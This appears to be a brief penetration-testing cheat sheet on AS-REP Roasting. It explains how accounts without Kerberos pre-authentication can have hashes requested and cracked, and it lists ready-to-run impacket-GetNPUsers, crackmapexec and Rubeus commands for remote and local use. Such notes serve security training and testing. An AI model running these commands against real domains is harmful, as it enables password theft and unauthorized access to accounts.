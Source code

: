 # AS-REP Roasting
Because UF_DONT_REQUIRE_PREAUTH is set for an account, it doesnt need to pre authenticate itself. Therefore everyone (also an attacker) can request an AS-REP hash for that account, (if it knows its name), and then crack it to obtain the password for that account.

Requirements:
* Userlist without creds OR a user with creds
* UF_DONT_REQUIRE_PREAUTH set

## Remote
A user without creds: get only non pre-auth accounts from file:
`impacket-GetNPUsers -dc-ip <IP> '<DOMAIN>/' -usersfile <USERLIST>` 

A user with creds: get all non pre-auth accounts on domain:
`impacket-GetNPUsers -dc-ip <IP> '<DOMAIN>/<USER>:<PASS>' -request`
`crackmapexec ldap <IP> -u '<USER>' -p '<PASS>' --asreproast <OUTPUT.TXT>`

## Local
`Rubeus.exe asreproast`